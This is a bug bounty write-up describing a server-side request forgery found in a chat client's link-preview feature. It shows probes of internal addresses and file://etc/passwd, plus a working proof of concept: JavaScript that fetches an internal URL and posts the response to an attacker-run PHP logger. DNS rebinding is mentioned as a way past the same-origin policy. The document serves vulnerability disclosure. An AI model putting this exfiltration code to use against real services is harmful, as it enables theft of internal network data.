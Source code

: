 # [bugbounty]A Simple SSRF

This is a private program<br>
First of all, its web assets have several subdomains. After I tested it for a while, I plan to check out the mac client.
After installation, sign up for login, then I see a chat interface.<br>
Send a URL
![enter image description here](./1.png)
It seems to preview the url, return a title and favicons<br>
I use my server ip to test. Then received<br>
![enter image description here](./t3.png)
Found that is the browser's ua header<br>
Then I tested it http://127.0.0.1 https://127.0.0.1 file://etc/passwd ....<br>
Tested a lot of common internal ip<br>
But<br>
![enter image description here](./t1.png)
![enter image description here](./t2.png)
No effect<br>
Then I tried the subdomain brute force, as well as some asset discovery sites to find internal ip<br>
Until there is an ip<br>
![enter image description here](./t4.png)
Seems to be successful<br>
Then I quickly submitted the vulnerability<br>
But<br>
![enter image description here](./t5.png)
As written above, we can only get a very small amount of content.<br>
After testing, I found that it will also execute js because it is browser ua<br>

  

 

    <html><p id='d1'></p>
    <script>
        function get(url) {
            try {
                var req = new XMLHttpRequest();
                req.open('GET', url, false);
                req.send(null);
                if(req.status == 200)
                    return req.responseText;
            } catch(err) {
            }
            return null;
        }
        var role = get('https://google.com');
        document.getElementById("d1").innerHTML=role.length;
    </script></html>
![enter image description here](./t6.png)
Can successfully get Google returns the content length<br>
Does not seem to be blocked by Same Origin Policy<br>
Then we can get any internal network content<br>
**poc**<br>
xxx.php

    <?php
    file_put_contents("save.txt", $_POST['cc'] . "\n", FILE_APPEND);
    ?>
poc.html

    <html><p id='d1'></p>
    <script>
    function get(url) {
        try {
            var req = new XMLHttpRequest();
            req.open('GET', url, false);
            req.send(null);
            if(req.status == 200)
                return req.responseText;
        } catch(err) {
        }
        return null;
    }
    function post(url,content){
        var req = new XMLHttpRequest();
        req.open("POST", url, true);
        var formData = new FormData();
        formData.append("cc", content);
        req.send(formData);
    }
    var role = get('https://Internal ip');
    post('https://xxxxxxxxxxx.com/xxx.php',escape(role));
    document.getElementById("d1").innerHTML=role.length;
    </script></html>
Then check save.txt<br>
![enter image description here](./t8.png)
Url decoding<br>
![enter image description here](./t9.png)

**If Same Origin Policy blocks**<br>
Bypass Same Origin Policy with DNS-rebinding to retrieve  Internal server .<br>
![enter image description here](https://user-images.githubusercontent.com/5891788/53449161-87e47300-3a19-11e9-8e3c-7b7bdfeaab6b.png)

Details from https://github.com/mpgn/ByP-SOP<br>
Finally ![enter image description here](./t11.png)
